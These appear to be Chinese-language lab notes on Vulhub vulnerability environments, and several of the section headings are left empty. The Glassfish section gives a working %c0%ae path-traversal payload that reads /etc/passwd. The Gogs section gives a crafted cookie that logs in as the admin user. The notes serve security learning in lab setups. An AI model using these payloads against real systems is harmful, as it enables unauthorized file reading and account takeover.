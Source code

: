 
# **[gitlist 0.6.0 远程命令执行漏洞](https://vulhub.org/#/environments/gitlist/0.6.0-rce/)**




## **[Glassfish 任意文件读取漏洞](https://vulhub.org/#/environments/glassfish/4.1.0/)**


## **漏洞原理**：

java语言中会把%c0%ae解析为\uC0AE，最后转义为ASCCII字符的.（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

## **漏洞复现**:

在输入框中输入：
```
/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```


# **[Gogs 任意用户登录漏洞（CVE-2018-18925）](https://vulhub.org/#/environments/gogs/CVE-2018-18925/)**

# **[漏洞原理](https://xz.aliyun.com/t/3168)**

## **[漏洞利用](https://www.anquanke.com/post/id/163575)**

通过这个附件的URL，得知这个文件的文件名：`./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10。`

然后，构造Cookie
`i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10`，访问即可发现已经成功登录id=1的用户（即管理员）：


# **[Hadoop YARN ResourceManager 未授权访问](https://vulhub.org/#/environments/hadoop/unauthorized-yarn/)**


## **[漏洞利用](https://hadoop.apache.org/docs/r2.7.3/hadoop-yarn/hadoop-yarn-site/ResourceManagerRest.html)**





# **[OpenSSH 用户名枚举漏洞（CVE-2018-15473）](https://vulhub.org/#/environments/openssh/CVE-2018-15473/)**
